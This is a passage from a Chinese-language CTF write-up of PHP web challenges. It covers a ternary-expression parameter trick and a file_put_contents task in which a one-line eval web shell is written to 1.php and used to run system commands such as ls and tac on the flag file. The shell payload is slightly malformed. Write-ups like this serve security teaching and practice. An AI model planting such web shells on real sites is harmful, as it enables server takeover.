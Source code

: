 第一个判断是一个三元表达式，如果get为true则get和post指向同一个地址否则返回flag

那么根据最后一个三元表达式要使HTTP_FLAG=flag才能返回flag

那么通过一个和表达式构造get 1=1 使get和post指向同一个地址

然后post传入HTTP_FLAG=flag得到flag

payload：？1=1   post：HTTP_FLAG=flag

## WEB99  file_put_contents

![99](img/99.png)

审计。。file_put_contents原来把第二个参数的值写道第一个参数中可以原来创建一个新的文件写入一句话。

get（n）中的值需要在随机数36--877中随机数从1-36开始即构造一个1.php

payload：

get:?n=1.php

post:	content=<?php eval($_POST['a'];)>

访问到1.php后post：a=system('ls');a=system(tac flag36d)		

## WEB100 审计
